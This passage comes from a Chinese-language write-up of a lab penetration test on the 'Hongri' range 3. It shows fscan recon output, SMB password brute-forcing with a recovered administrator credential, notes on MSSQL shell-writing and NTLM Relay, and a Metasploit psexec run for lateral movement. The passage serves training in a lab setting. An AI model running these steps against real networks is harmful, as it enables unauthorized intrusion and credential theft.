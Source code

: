 ```bash
192.168.93.20:80 open
[*] alive ports len is: 5
start vulscan
[*] NetInfo
[*]192.168.93.20
   [->]win2008
   [->]192.168.93.20
[*] WebTitle http://192.168.93.20      code:404 len:315    title:Not Found
[*] NetBios 192.168.93.20   win2008.test.org                    Windows Server (R) 2008 Datacenter 6003 Service Pack 2
[*] OsInfo 192.168.93.20        (Windows Server (R) 2008 Datacenter 6003 Service Pack 2)
已完成 5/5
[*] 扫描结束,耗时: 1.224541199s

[root@localhost tmp]# ./fscan  -h 192.168.93.30
start infoscan
192.168.93.30:445 open
192.168.93.30:139 open
192.168.93.30:135 open
[*] alive ports len is: 3
start vulscan
[*] NetInfo 
[*]192.168.93.30
   [->]win7
   [->]192.168.93.30
[*] OsInfo 192.168.93.30        (Windows 7 Professional 7601 Service Pack 1)
已完成 3/3
```
另外两台机器最终放弃掉nmap的扫描了,太慢了

总结一下
```bash
test.org域内
192.168.93.10 win2012 DC
192.168.93.20 win2008 
另外有一台机器不在TEST域内
192.168.93.30 win7
```
### smb凭据爆破
到这里为止,横向移动的思路卡住了,去看了一下网上的各种解法,最常见的就是爆破smb的凭据了....我选的几个字典都没有这个密码,手动添加一下.....
```bash
sed -i '100i 123qwe!ASD' rockyou.txt

administrator:123qwe!ASD
```
![](https://img.l1uyun.one/红日靶场3_image_17.png)
附上其他师傅的横向思路
```bash
1、mssql要是拿到高权限（sa账号权限）可以尝试通过mssql写 shell 然后提权。
2、在进行横向移动时，内网设备扫不出来其他漏洞，只能通过 SMB 爆破或者 NTLM Relay 攻击，SMB 爆破比较碰运气，在实际过程中可以通过收集公司及管理员信息生成对应字典；NTLM Relay 攻击类似社工钓鱼，遇到安全意识不高的管理员才有可能成功，并且在内网环境中安装Python和对应的库也是比较麻烦的，可以考虑使用 conda 等创建虚拟环境，然后一起打包上传到对应靶机，但是相应的环境配置也是比较容易出问题。
```
### psexec拿shell
使用msf的windows/smb/psexec模块,拿到20,30机器的shell
```bash
set rhosts 192.168.93.20,30
rhosts => 192.168.93.20,30
msf6 exploit(windows/smb/psexec) > run
[*] Exploiting target 192.168.93.20

[*] 192.168.93.20:445 - Connecting to the server...
[*] 192.168.93.20:445 - Authenticating to 192.168.93.20:445 as user 'administrator'...
```
